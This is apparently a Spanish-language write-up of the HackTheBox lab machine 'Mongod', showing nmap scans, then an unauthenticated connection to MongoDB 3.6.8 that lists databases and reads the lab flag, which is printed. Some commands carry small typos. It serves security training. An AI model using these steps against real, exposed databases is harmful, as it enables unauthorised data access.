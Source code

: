 # Mongod

Plataforma: HackTheBox
OS: Linux
Level: Very Easy
Status: Done
Complete: Yes
Created time: 4 de enero de 2025 16:02
IP: 10.129.83.144

## Recopilación de información

<aside>
💡 Maquina very easy del Trier 0 de HTB

</aside>

### **Escaneo de puertos**

Comenzamos con un escaneo para identificar que puertos están abiertos.

---

```bash
sudo nmap -p- --open --min-rate 5000 -sS -n -Pn -www 10.129.83.144 -oG allports

PORT      STATE SERVICE REASON
22/tcp    open  ssh     syn-ack ttl 63
27017/tcp open  mongod  syn-ack ttl 63
```

![image.png](<imagenes/image 68.png>)

### **Enumeración de servicios**

Una vez listado los puertos accesibles, procederemos a realizar la enumeración de servicios para su posterior identificación de vulnerabilidades.

---

```bash
sudo nmap -sCV -p22,27017 10.129.83.144 -oN targeted

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
27017/tcp open  mongodb MongoDB 3.6.8 3.6.8
```

- **Identificación de vulnerabilidades**
    - 22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
    - 27017/tcp open  mongodb MongoDB 3.6.8 3.6.8

Vemos que con el script de nmap nos ha enumerado toda la BD de Mongo

```bash
db.flag.find().documents
db.coll.find().pretty()27017
```

Nos conectamos con

```bash
mongo 10.129.83.144:27010

test> show dbs
admin                  32.00 KiB
config                 72.00 KiB
local                  72.00 KiB
sensitive_information  32.00 KiB
users                  32.00 KiB
db> use admin
switched to db admin
admin> show collections
system.version
admin> use sensitive_information
switched to db sensitive_information
sensitive_information> show collections
flag
sensitive_information> db.flag.find()
[
  {
    _id: ObjectId("630e3dbcb82540ebbd1748c5"),
    flag: '1b6e6fb359e7c40241b6d431427ba6ea'
  }
]
sensitive_information> 

```

Flag: 1b6e6fb359e7c40241b6d431427ba6ea

## Explotación

<aside>
💡 No hay explotación

</aside>

## Conclusión

<aside>
💡 Maquina muy facil, sin explotación

</aside>